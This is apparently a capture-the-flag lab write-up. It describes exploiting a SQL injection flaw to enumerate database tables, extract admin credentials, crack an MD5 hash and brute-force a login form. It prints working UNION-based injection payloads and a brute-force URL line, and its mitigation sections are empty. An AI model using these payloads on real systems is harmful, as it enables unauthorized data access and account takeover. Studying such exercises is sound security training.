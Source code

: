 # a01 + a05

## How to find the flag:
* Display all the tables of the databases with : 105 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.columns

* Discover a table named "db_default" which contains three columns : id, username, password

* Try to view its content with the following SQL command "105 OR 1=1 UNION SELECT username, 1 FROM db_default".
-> It will return this error message : Table 'Member_Sql_Injection.db_default' doesn't exist.
-> We understand that it looks for the content of db_default in the wrong database.
-> We now need to find in which database db_default is stored

* Use this command to show all the tables and their databases : 105 OR 1=1 UNION SELECT table_schema, table_name FROM information_schema.tables.
-> We now know that "db_default" is part of the "Member_Brute_Force" database

* List all the usernames of db_default : 105 OR 1=1 UNION SELECT username, 1 FROM Member_Brute_Force.db_default
-> We find two candidates : admin and root

* List all the password of db_default : 105 OR 1=1 UNION SELECT password, 1 FROM Member_Brute_Force.db_default
-> We find hashed data for one specific password : 3bf1114a986ba87ed28fc1b5884fc2f8
-> We don't know if it is for admin or root yet, so we'll try both.

* But first we need to decode it. There's 32 characters so it is probably hashed in MD5.
-> It is ! The password is "shadow"

However, as the password is stored in Member_Brute_Force we suspect that we need to specificly use a brute force method to retrieve it.
In order to do this we wrote a short script in Python using a dictionnary of most common used passwords as a source. 

We then check if the word "flag" is present in the response of the reconstructed URL.

```full_url = f"{BASE_URL}&username={USERNAME}&password={password}&Login=Login#"```

* We can now go to the Signin page and log in with :
- Username : admin
- Password : shadow

## Risks:


## How to avoid:


Sources:
https://owasp.org/Top10/fr/A03_2021-Injection/
https://www.vaadata.com/blog/fr/injections-sql-principes-impacts-exploitations-bonnes-pratiques-securite/
https://www.sqlinjection.net/table-names/
https://www.sqlinjection.net/column-names/
https://www.acunetix.com/websitesecurity/sql-injection/